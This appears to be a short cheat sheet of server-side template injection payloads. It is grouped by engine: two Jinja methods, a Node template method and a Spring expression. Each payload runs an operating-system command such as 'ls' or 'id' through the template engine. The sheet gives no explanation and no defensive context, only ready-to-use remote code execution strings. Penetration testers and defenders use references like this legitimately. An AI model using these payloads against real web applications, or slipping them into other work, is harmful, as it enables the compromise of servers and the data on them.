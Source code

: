 ## Jinja

- Method 1
```
{{"_".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```
- Method 2 (using other parameters)
```
{% if session.update({request.args.key:self._TemplateReference__context.cycler.__init__.__globals__.os.popen(request.args.command).read()}) == 1 %}{% endif %}&command=id&key=payload
```

## Node

- Method 1
```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
```

## Java

- Spring framework
    - `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}`
